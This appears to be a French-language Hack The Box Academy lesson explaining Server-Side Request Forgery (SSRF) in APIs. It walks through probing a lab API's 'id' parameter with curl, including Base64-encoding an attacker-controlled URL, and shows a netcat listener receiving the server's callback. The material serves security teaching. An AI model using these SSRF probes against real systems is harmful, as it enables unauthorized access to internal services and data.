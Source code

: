 * * * * *

Les attaques Server-Side Request Forgery (SSRF), répertoriées dans le top 10 de l'OWASP, nous permettent d'abuser des fonctionnalités du serveur pour effectuer des demandes de ressources internes ou externes au nom du serveur. Nous devons généralement fournir ou modifier les URL utilisées par l'application cible pour lire ou soumettre des données. L'exploitation des vulnérabilités de SSRF peut entraîner :

-   Interagir avec des systèmes internes connus
-   Découverte des services internes via des scans de port
-   Divulgation de données locales/sensibles
-   Inclure des fichiers dans l'application cible
-   Fuite de hachages NetNTLM à l'aide de chemins UNC (Windows)
-   Réaliser l'exécution de code à distance

Nous pouvons généralement trouver des vulnérabilités SSRF dans des applications ou des API qui récupèrent des ressources distantes. Notre module [Server-side Attacks](https://academy.hackthebox.com/module/details/145) couvre SSRF en détail.

Comme nous l'avons mentionné à plusieurs reprises, cependant, nous devrions fuzzer chaque paramètre identifié, même s'il ne semble pas chargé de récupérer des ressources distantes.

Évaluons ensemble une API vulnérable à SSRF.

Allez à la fin de cette section et cliquez sur `Click here to spawn the target system!`ou sur l' `Reset Target`icône . Utilisez la Pwnbox fournie ou une machine virtuelle locale avec la clé VPN fournie pour atteindre l'API cible et suivez-la.

Supposons que nous évaluons une telle API résidant dans `http://<TARGET IP>:3000/api/userinfo`.

Interagissons d'abord avec lui.

```
dsgsec@htb[/htb]$ curl http://<TARGET IP>:3000/api/userinfo
{"success":false,"error":"'id' parameter is not given."}

```

L'API attend un paramètre appelé *id* . Puisque nous souhaitons identifier les vulnérabilités de SSRF dans cette section, configurons d'abord un écouteur Netcat.

```
dsgsec@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...

```

Ensuite, spécifions `http://<VPN/TUN Adapter IP>:<LISTENER PORT>`comme valeur du paramètre *id* et effectuons un appel API.

```
dsgsec@htb[/htb]$ curl "http://<TARGET IP>:3000/api/userinfo?id=http://<VPN/TUN Adapter IP>:<LISTENER PORT>"
{"success":false,"error":"'id' parameter is invalid."}

```

Nous remarquons une erreur indiquant que le paramètre *id* n'est pas valide, et nous remarquons également qu'aucune connexion n'est établie avec notre écouteur.

Dans de nombreux cas, les API attendent des valeurs de paramètre dans un format/encodage spécifique. Essayons d'encoder en Base64 `http://<VPN/TUN Adapter IP>:<LISTENER PORT>`et d'effectuer à nouveau un appel d'API.

```
dsgsec@htb[/htb]$ echo "http://<VPN/TUN Adapter IP>:<LISTENER PORT>" | tr -d '\n' | base64
dsgsec@htb[/htb]$ curl "http://<TARGET IP>:3000/api/userinfo?id=<BASE64 blob>"

```

Lorsque vous effectuez l'appel API, vous remarquerez qu'une connexion est établie avec votre écouteur Netcat. L'API est vulnérable à SSRF.

```
dsgsec@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 50542
GET / HTTP/1.1
Accept: application/json, text/plain, */*
User-Agent: axios/0.24.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close

```

Si le temps le permet, essayez de fournir aux API des entrées dans différents formats/encodages.
